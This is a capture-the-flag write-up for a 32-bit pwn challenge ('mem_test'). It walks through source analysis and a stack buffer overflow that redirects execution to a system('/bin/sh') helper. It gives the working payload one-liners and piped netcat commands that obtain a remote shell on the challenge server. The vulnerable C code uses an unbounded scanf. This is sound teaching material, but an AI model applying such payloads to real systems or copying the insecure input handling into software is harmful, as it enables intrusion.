


# mem_test
**Category:** Pwn

**Points:** 75

**Description:**
Author: kablaa

nc ctf.hackucf.org 9004

> **Files:** mem_test, mem_test.c, libpwnableharness32.so

## Write-up
When run, the program prints a header, then a random string, and then asks to see how good your memory is. If you enter the random string, it prints 'good job!!':
```
> nc ctf.hackucf.org 9004


------Test Your Memory!-------

YiUqxvyNCc
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> YiUqxvyNCc
good job!!


```
If you don't enter the string correctly, you get the 'sorry, your memory sucks' message:
```
nc ctf.hackucf.org 9004


------Test Your Memory!-------

zhULSZ2STl
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> hello
sorry, your memory sucks

```
C code was provided. In it there was a `handle_connection()` function, so I started there:
```c
void handle_connection(int sock) {
	int len = 10;
	char random[11];
	int i;
	static const char alphanum[] =
		"0123456789"
		"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
		"abcdefghijklmnopqrstuvwxyz";
	
	
	puts("\n\n\n------Test Your Memory!-------\n");
	
	srand(time(NULL));
	
	for(i = 0; i < len; ++i) {
		random[i] = alphanum[rand() % (sizeof(alphanum) - 1)];
	}
	
	printf("%s", random);
	mem_test(random);
}
```
This function creates the random string to test the user with, prints it out, and passes it to the `mem_test()` function, so we can take a look at that:
```c
const char* hint = "/bin/sh";

void mem_test(char* p) {
	char buff[11];
	memset(buff, '\0', sizeof(buff));
	
	printf("\nI know that mine is fine...see? : ");
	printf("%p \n", hint);
	
	puts("Let's see how good your memory is...\n");
	printf("> ");
	scanf("%s", buff);
	
	if(strncmp(buff, p, sizeof(p)) != 0) {
		puts("sorry, your memory sucks\n");
	}
	else {
		puts("good job!!\n");
	}
}
```
Note that there is a global variable `hint` that is used by the `mem_test()` function, and this contains `/bin/sh`. Interesting.

Looking at the `mem_test()` function, it creates a `char` array (`buff`) of 11 bytes and sets them all to zero. We can now see that the address printed out after the 'mine is fine' message is the address of the `hint` variable.

It then prints out the messages and uses `scanf()` to get the user input and puts it in `buff`. This means we can overflow `buff` if we need to, as `scanf()` does no checking on the length of the input. We can see that `buff` is then compared to the original random string and an appropriate message printed.

In the code, there is one more function - `win_func()`:
```c
void win_func(char* y) {
	system(y);
}
```
This function takes a string and runs whatever is in that parameter. It looks like we need to call this function and pass it the address of the `hint` variable.

The only way I can see to call this function would be to overwrite the return address for the `mem_test()` function so it calls `win_func()` instead of returning to `handle_connection()`. To see how this can be done I ran the code in IDA, initially passing in 10 A characters so we can see the stack layout:
```
> python -c "print('A'*10)" > input.txt
```
We can now use `input.txt` to get the input into IDA.

If we look at the disassembly of part of the `handle_connection()` function, we can see that `mem_test()` is called at 0x0804885b:



This means the return address we are looking for on the stack is 0x08048860. Let's look at the stack just before the `scanf()` call:


We can see the return address on the stack at 0xff843a3c. Now lets step over the `scanf()` and we'll see where our input goes:


The input is placed on the stack at 0xff843a25 (I've missed highlighting a few in the image). There are our 10 A characters and the null terminator. To affect the return address, we're going to have to add another 13 A characters (to eat up the null terminator and then 12 bytes on the next line), and then put the address we want to jump to. Looking at the code, the function we want to call is at 0x08048866:



So now we can change our `input.txt` file to try to change the return address and jump into the `win_func()` function:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08')" > input.txt

This time, we can see the original return address at 0xffa3ac4c:


Once we write our input to the stack the return address has changed to the `win_func()` location:


When stepping on through the code, this does get us into the `win_func()` function! Now we need to work out how to pass the address of `hint` to this function call.

The stack for a `call` is organised as follows:
|Stack frame |
|------------|
|Address of function to call   |
|Return address after call|
|Argument1 address|
|Argument2 address|

So we need to set up the stack like that for our call to `win_func()`. We can set the return address to the original return address we've overwritten, and the argument can be the address of `hint`. Therefore our stack should be:
| Stack frame | Description |
|-------------|-------------|
|AAAAAAAA...| Overflowed buffer|
|0x08048866 | Overwritten return address - now points to `win_func()`|
|0x08048860 | Original return address set as return address for our call|
|0x08048980 | Address of `hint`|

Therefore, we now set up our `input.txt` file to be:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt

> Note also: Even though I set the stack so that the old return address was set as the return address for our call, the program will still segment as the stack  won't be set up completely correctly

I tested our final payload in IDA. The final stack looked correct - after the A characters was the address of the `win_func()`, followed by the address to return to in `handle_connection()`, and then the address of the `hint` variable:


Lets try this on the server now:
```
> (python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004


------Test Your Memory!-------

uYPRJUjxBq
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> sorry, your memory sucks

ls
flag.txt
mem_test
cat flag.txt
flag{<flag was here>}
^C
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: (python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004

> Note also: We need to use `(python ... ; cat)` otherwise you don't get chance to interact with the shell before the program segments

This worked and gave me the flag.


